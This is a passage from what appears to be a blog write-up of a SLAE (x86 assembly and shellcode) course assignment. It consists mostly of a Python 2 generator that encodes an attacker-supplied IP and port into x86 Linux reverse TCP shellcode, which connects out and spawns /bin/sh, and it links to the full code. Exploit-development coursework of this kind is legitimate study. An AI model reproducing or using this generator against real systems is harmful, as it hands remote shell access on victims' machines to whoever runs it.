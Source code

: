 ```python
except ValueError as e:
	sys.exit("[-] Please enter a valid port")

ip_op = ""
for part in ip_parts:
	part_hex = hex(int(part))[2:]
	if (len(part_hex) == 2):
		ip_op += "\\x"+part_hex
	elif (len(part_hex) == 1):
		ip_op += "\\x0"+part_hex
	else:
		sys.exit("[-] Please enter a valid ip address")

print ip_op

if "00" in ip_op:
	sys.exit("[-] Please enter a valid ip")

port_hex = hex(port)[2:]
if (len(port_hex) == 4):
	port_op = "\\x"+port_hex[0:2]+"\\x"+port_hex[2:4]
elif (len(port_hex) == 3):
	port_op = "\\x0"+port_hex[0]+"\\x"+port_hex[1:3]
else:
	sys.exit("[-] Please enter a valid port")

if "00" in port_op:
	sys.exit("[-] Please enter a valid port")

code = (
"\\x31\\xc0\\x50\\x40\\x50\\x89\\xc3\\x40\\x89\\xc7"
"\\x50\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x89\\xc6\\x31"
"\\xc0\\x68"+ip_op+"\\x66\\x68"+port_op+"\\x66\\x57"
"\\x89\\xe1\\xb0\\x10\\x50\\x51\\x56\\xb0\\x66\\x47"
"\\x89\\xfb\\x89\\xe1\\xcd\\x80\\x89\\xf3\\x31\\xc9"
"\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79"
"\\xf7\\x31\\xc9\\x51\\x68\\x2f\\x2f\\x73\\x68\\x68"
"\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x51\\x89\\xe2\\x53"
"\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
)

len = len(code)/4
print "Shellcode Length: %d" % len
print "\"%s\"" % code
```

And there you have it - a reverse tcp shellcode and its very own generator.  You can find the all the code to this challenge at [https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_2](https://github.com/johneiser/SLAE/tree/master/assignments/Assignment_2).

<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
